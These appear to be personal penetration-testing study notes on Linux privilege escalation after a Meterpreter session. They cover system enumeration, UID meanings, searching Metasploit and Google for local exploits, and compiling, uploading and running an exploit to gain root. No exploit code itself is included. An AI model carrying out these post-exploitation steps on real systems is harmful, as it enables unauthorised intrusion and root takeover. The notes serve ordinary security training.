

meterpreter
meterpreter > sysinfo
very similar to the command
meterpreter > run post/linux/gather/enum_system
meterpreter > getuid


UID=0 → root user
UID=1-100 → first 100 UIDs for system use
UID=500-1500 → new users are assigned UIDs starting from 500 or 1000
In Ubuntu a new user start from 1000, next user after the first will be 1001
Privilege escalation(Linux): search on Metasploit
There are only few modules available to exploit locally Linux systems, to see them we can use:
meterpreter > background
msf> search type:exploit platform:linux | grep local
Privilege escalation(Linux): search on Google
Because there are only a few modules we have to search the exploits manually.
The best way to do this is search the target OS on Google followed by "privilege escalation"



we have to compile the exploit found:
gcc <exploit-name>.c -o <compiled-exploit>and upload it with meterpreter:
meterpreter > upload <compiled-exploit> . #the dot(.) mean that the file will be uploaded in
#the actual folder of the target machine

now we have to make executable the file:
meterpreter > execute -f /bin/sh -i -c #execute the shell
chmod +x <compiled-exploit> #make executable the exploit
and execute the exploit:
./<compiled-exploit>to see if the exploit worked:
whoami #from the shell
CTRL-C to come back to meterpreter #if we come back to meterpreter in some cases we lose
#the privileges